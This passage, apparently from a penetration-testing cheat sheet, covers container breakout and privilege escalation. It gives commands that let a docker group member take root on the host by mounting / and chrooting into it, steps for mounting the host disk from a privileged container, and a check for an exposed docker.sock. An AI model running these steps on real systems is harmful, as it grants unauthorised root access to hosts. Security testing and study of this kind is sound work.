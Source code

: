 ### docker

Since we are member of docker group, we can mount the root filesystem of the host machine to an instance's volume.

```text
$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              775349758637        22 months ago       64.2MB
alpine              latest              965ea09ff2eb        22 months ago       5.55MB
centos              latest              0f3e07c0138f        23 months ago       220MB

$ docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash

# Edit /etc/passwd to get root access to the host
```

We can also mount the filesystem and the network access.

```text
$ docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```

## Docker Breakout

### Privileged Flag enabled

When we start a docker with the privileged flag `--privileged` , we give the sufficient permission to mount the host filesystem inside the docker.

When the `root` user is owned, we will search the host drive:

```text
fdisk -l
```

After finding the Linux sda we will mount it:

```text
mkdir -p /mnt/host_drive
mount /dev/sda1 /mnt/host_drive
```

Finally, just `cd` to out new mount point to find all host files.

### Docker.sock available

By default, when the `docker` command is executed on a host, an API call to the docker daemon is made via a non-networked UNIX socket located at `/var/run/docker.sock`. However, many containers and guides require you to expose this socket file as a volume within a container or in some cases, expose it on a TCP port. Docker containers that expose `/var/run/docker.sock`, locally or remotely, could lead to a full environment take over.

#### Check if socket is available

```text
ls -alh /var/run/docker.sock
```
